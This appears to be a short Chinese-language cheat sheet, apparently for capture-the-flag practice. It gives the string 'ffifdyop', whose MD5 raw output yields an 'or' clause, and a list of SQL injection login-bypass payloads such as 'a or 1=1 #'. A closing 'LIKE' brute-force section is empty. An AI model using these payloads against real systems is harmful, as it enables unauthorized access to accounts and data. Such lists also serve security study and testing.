 ## MD 5 加密后密码相等
```
ffifdyop
(上面的信息通过我们的md5加密后，会变成276f722736c95d99e921722cf9ed621c,正好变成我们的or 6)
```

## SQL
```sql
or 1;#
a or true; #
a or 1 #
a or 1=1 #
a or true --
a or 1
a or 1=1
```

## LIKE 爆破
```

```



